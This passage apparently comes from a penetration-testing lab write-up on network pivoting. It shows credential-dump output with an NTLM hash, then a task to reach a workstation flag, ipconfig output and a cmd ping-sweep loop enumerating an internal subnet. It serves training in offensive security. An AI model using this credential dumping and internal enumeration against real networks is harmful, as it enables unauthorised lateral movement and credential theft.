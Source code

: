 ```sh
Logon Server      : PIVOT-SRV01
Logon Time        : 5/4/2025 9:26:10 PM
SID               : S-1-5-21-1602415334-2376822715-119304339-1003
        msv :
         [00000003] Primary
         * Username : ****
         * Domain   : PIVOT-SRV01
         * NTLM     : 2831bf1e4e0841d882328d5481fb5c92
         * SHA1     : ccb38ae19c47a04fa01542f30466d6c48ddc18d7
        tspkg :
        wdigest :
         * Username : mlefay
         * Domain   : PIVOT-SRV01
         * Password : (null)
        kerberos :
         * Username : mlefay
         * Domain   : PIVOT-SRV01
         * Password : (null)
        ssp :
        credman :
```


6. For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the `C:\Flag.txt` located on the workstation.

```sh
# Situational awareness. Completely forgot
PS C:\> ipconfig.exe

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5523:4a93:f468:aa5d%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::c9b0:ca50:e34c:8701%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :


# Enumerate Ping sweep using cmd on windows pivot hosts
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"

...
C:\Windows\system32>ping 172.16.6.22 -n 1 -w 100   | find "Reply"
C:\Windows\system32>ping 172.16.6.23 -n 1 -w 100   | find "Reply"
C:\Windows\system32>ping 172.16.6.24 -n 1 -w 100   | find "Reply"
C:\Windows\system32>ping 172.16.6.25 -n 1 -w 100   | find "Reply"
Reply from 172.16.6.25: bytes=32 time=1ms TTL=128
...
C:\Windows\system32>ping 172.16.6.35 -n 1 -w 100   | find "Reply"
Reply from 172.16.6.35: bytes=32 time<1ms TTL=128 # Current host
...
C:\Windows\system32>ping 172.16.6.45 -n 1 -w 100   | find "Reply"
```